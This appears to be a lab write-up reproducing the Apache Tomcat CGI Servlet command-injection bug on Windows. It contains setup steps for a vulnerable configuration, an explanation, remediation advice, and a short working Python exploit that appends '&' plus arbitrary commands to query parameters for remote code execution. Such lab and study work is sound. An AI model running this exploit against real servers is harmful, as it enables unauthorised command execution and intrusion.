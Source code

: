 # PS
- Bug Overview: Apache Tomcat has a vulnerability in the CGI Servlet which can be exploited to achieve remote code execution (RCE). This is only exploitable when running on Windows in a non-default configuration in conjunction with batch files.
- Aim: Write a working exploit by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Environment Setup:
1. Install a Java Runtime Environment (JRE) in Windows.
2. Download a vulnerable version of Tomcat (in this case 7.0.93) and extract.
3. Modify the `conf\context.xml` file on line 19, to enable privileged context:

	``` html
	<Context privileged="true">
	```	
4. Modify `conf\web.xml` to enable the CGI Servlet by removing the comments around line 387 as follows and adding the following parameters: 

	``` html

	<servlet><servlet-name>cgi</servlet-name>
	<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
	<init-param>
	  <param-name>cgiPathPrefix</param-name>
	  <param-value>WEB-INF/cgi</param-value>
	</init-param>
	<init-param>
	  <param-name>executable</param-name>
	  <param-value></param-value>
	</init-param>
	<init-param>
	  <param-name>enableCmdLineArguments</param-name>
	  <param-value>true</param-value>
	</init-param>
	<load-on-startup>5</load-on-startup>
	</servlet>
	```

5.	Enable the CGI servlet by removing comments around this – you also need to change the URL pattern to match the one in the previous step (`cgi`):
	``` html
	<servlet-mapping>
	<servlet-name>cgi</servlet-name>
	<url-pattern>/cgi/*</url-pattern>
	</servlet-mapping>
	```

6.	Create a folder for the CGI files:
 	`mkdir webapps\ROOT\WEB-INF\cgi`
7.	Create any non empty bat file with valid commands.
8.	Run Tomcat via the following command:
	``` bash
	cd bin
	catalina run
	```
1.	Run the exploit code with url of the `.bat` file in cgi folder on server.
  
# Exploit Code:

```python3
import requests as re
base_url = input("Enter url of the .bat cgi script: ")
while(True):
	command = input("Enter the command: ")
	command = '&echo off'+'&echo.'+'&'+command
	r = re.get(base_url, params=command.replace(" ","+"))
	print(r.text)
```

# Explanation of Bug:
There is a vulnerability in parameter interpolation in Tomcat 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39 and 7.0.0 to 7.0.93 which can be exploited by passing arguements as query
parameters which in turn are passed to the underlying windows command line. In windows `&` is a special character which acts as command seperator. Neither Apache Tomcat or the
Windows JRE perform any kind of input validation for these special characters. So after this we can literally input any command directly to the command line. For example, if
input is `whoami`, the command which is passed to cmdline will be `RCE.bat &echo off&echo.&whoami`. This is only exploitable when running on Windows in a non-default
configuration in conjunction with batch files and `enableCmdLineArguements` set to `true` in web.xml file. If also `passShellEnvironment` is also set to `true`, this gives the
upper-hand to the attacker as he then doesn't need to enter exact path of commands he want to run. 

# Remediation:
1.	Set `enableCmdLineArguements` to `False`.
2.	If above option is required then add additional parameter `cmdLineArgumentsDecoded` and set it to `true`for proper input validation. 

# References:
1.	https://www.codewhitesec.blogspot.com/2016/02/java-and-command-line-injections-in-windows.html
2.	https://docs.microsoft.com/en-us/archive/blogs/twistylittlepassagesallalike/everyone-quotes-command-line-arguments-the-wrong-way
